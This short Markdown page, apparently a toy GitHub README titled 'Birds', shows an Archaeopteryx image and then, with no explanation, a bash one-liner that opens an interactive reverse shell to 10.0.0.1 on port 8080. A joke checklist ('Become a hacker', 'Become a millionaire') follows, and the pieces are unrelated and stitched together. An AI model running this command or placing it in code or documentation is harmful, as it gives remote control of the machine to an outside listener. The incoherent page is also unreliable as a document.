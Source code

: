 # Birds
![Image of Bird Kingdom](https://upload.wikimedia.org/wikipedia/commons/9/9d/Archaeopteryx_lithographica_%28Berlin_specimen%29.jpg)

```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

- [ ] Become a hacker
- [ ] Become a millionaire
